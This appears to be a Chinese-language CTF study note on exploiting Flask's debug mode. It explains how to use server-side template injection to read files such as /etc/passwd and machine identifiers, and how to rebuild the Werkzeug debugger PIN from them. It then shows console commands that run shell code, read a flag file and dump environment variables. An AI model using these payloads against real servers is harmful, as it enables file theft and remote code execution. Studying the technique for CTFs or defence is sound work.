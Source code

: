 Flask模板注入中debug模式下pin码的获取和利用:
## **什么是pin码**
pin码是flask在开启debug模式下，进行代码调试模式所需的进入密码，需要正确的PIN码才能进入调试模式，可以理解为自带的webshell。
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce


729-315-842


## **pin码生成要六要素**
通常任意文件读取ssti：
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
```
1.username在可以任意文件读的条件下读/etc/passwd进行猜测
2.modname 默认 flask.app
3.appname 默认Flask
4.moddir flask库下app.py的绝对路径,可以通过报错拿到,如传参的时候给个不存在的变量
5.uuidnode mac地址的十进制
```
任意文件读/sys/class/net/ethe/address或
/sys/class/net/ens33/address 去掉冒号后int("c2f233c6de75",16)转换为十进制
```
6.machine_id 机器码 
```
machine-id 基于不同版本有不同的算法

在werkzeug 1.0.0rc1之前为:
docker环境: /proc/self/cgroup里面…/docker/后面的内容
非docker: /etc/machine-id或/proc/sys/kernel/random/boot_id的内容

在werkzeug 1.0.0rc1及之后为:
/etc/machine-id或/proc/sys/kernel/random/boot_id
+
/proc/self/cgroup
生成pin码也有md5和sha1算法两种
```
然后通过程序生成pin

^
## **控制台利用**
有了pin，然后报错或访问/console进，点击一个条列的右边有一个终端按钮，点击进入控制台rce
```
os.popen("ls -l /").read()
os.popen("cat /this_is_the_flag.txt").read()


__import__('os').popen("env").read()
```



![](.topwrite/assets/image_1728027706412.png)
^
<https://blog.csdn.net/rfrder/article/details/110240245>

<https://www.cnblogs.com/MisakaYuii-Z/p/12407760.html>